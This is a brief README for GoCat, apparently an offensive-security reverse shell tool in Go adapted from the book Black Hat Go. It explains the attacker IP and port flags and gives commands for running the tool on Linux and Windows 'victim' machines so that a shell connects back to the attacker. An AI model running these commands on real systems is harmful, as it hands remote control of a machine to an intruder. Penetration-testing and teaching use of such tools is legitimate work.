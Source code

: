 # GoCat
A self-contained implementation of a reverse shell (netcat-like). It is an improvement based on the source code found on the book blackhat Go 

## Author
Alan Lacerda (alacerda) | intruderLabs team

## Usage
The command accepts 2 parameter:

-p string

        Port where the attacker is expecting the reverse shell back.

-s string

        Attacker's IP address to send the shell back.

### Linux Victim
./gocat -s <attacker-IP> -p <attacker-port>

### Windows victim
gocat.exe -s <attacker-IP> -p <attacker-port>
